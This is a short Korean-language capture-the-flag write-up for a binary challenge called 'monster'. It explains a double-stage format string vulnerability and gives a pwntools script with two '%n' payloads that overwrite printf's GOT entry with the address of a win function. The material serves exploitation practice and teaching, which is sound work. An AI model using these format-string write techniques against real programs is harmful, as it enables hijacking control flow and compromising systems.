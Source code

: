 # monster

본 문제는 `printf(s)`의 형식으로 사용하여 FSB 취약점이 발생하는 문제입니다. 다만 s가 bss영역에 쓰여지기 때문에 double stage FSB를 발생합니다.



win함수의 주소 : 0x080485bd

printf함수의 got : 0x804a00c



```python
from pwn import *

p = process("./monster2")

#set *0xffffcfb0 = 0x804a00c
pay = "%8x " * 7
pay += "%134520780x "
pay += "%n"

p.recvuntil("Your Choice? :")
p.sendline(pay)

#set *0x804a00c = 0x80485bd(win addr)
pay2 = "%8x " * 14
pay2 += "%134514150x "
pay2 += "%n"

p.recvuntil("Your Choice? :")
p.sendline(pay2)

p.interactive()
```





##### 과정

1. fsb를 이용하여 stack안의 적당한 포인터인 0xffffcfb0의 자리에 printf의 got로 값 modify

%8x %8x %8x %8x %8x %8x %8x %134520780x %n : 0xffffcfb0의 값을 0x804a00c(printf의 got)으로 변경

2. double stage fsb를 이용하여 printf함수의 got를 win함수의 주소로 덮어서 익스

%8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %134514150x %n : printf의 got를 0x080485bd(win함수의 주소)로 변경

